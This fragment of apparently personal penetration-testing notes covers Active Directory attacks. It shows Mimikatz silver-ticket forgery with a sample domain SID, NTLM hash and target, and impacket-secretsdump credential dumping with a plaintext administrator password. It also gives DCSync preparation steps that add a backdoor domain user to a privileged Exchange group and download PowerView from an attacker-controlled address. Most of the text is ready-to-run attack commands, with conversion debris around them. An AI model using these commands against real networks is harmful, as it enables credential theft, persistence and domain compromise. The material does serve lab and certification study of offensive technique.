 Forging silver ticket Ft Mimikatz

-   kerberos::golden /sid:\<domainSID\> /domain:\<domain-name\> /ptt
    > /target:\<targetsystem.domain\>

```{=html}
<!-- -->
```
-   kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369
    > /domain:corp.com /ptt /target:web04.corp.com /service:http
    > /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin

![](vertopal_528d199b82d241d6abcc4565ee1c8434/media/image20.png){width="6.5in"
height="4.916666666666667in"}

\# we can check the tickets by,

ps\> klist

Accessing service

ps\> iwr -UseDefaultCredentials \<servicename\>://\<computername\>

## **Domain Controller Synchronization**

## Secretsdump

-   secretsdump.py \<domain\>/\<user\>:\<password\>@\<IP\>

-   impacket-secretsdump administrator:\'hghgib6vHT3bVWf\'@10.10.120.X

-   impacket-secretsdump
    > oscp.exam/administrator:\'hghgib6vHT3bVWf\'@10.10.120.X

-   

## DCSync Attack 

first this is because **Abusing GenericAll Privilege on Exchange Trusted
Subsystem Group**

-   **net user /add pwnt P@ssw0rd /domain**

```{=html}
<!-- -->
```
-   **net group /add \'Exchange Trusted Subsystem\' pwnt /domain**

```{=html}
<!-- -->
```
-   wget http://10.10.14.70:5555/PowerView.ps1 -o PowerView.ps1

```{=html}
<!-- -->
```
-   Import-Module .\\PowerView.ps1

